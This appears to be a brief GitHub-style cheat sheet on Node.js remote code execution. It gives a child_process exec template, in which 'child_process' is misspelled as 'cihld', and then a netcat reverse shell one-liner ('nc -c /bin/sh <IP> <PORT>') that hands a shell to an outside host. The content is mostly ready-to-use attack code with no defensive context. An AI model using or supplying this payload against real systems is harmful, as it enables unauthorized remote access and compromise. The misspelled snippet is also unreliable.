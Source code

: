 ##Nodejs RCE

The reverse shell payload is not based on nodejs
Theoretically, you can use others

####the base:

```javascript
require('cihld\_process').exec('\<CODE HERE\>')
```
__\<CODE HERE\>__ can be changed by other mechanism


###example

####Using netcat :

```javascript
require('child\_process').exec('nc -c /bin/sh <IP> <PORT>')

```
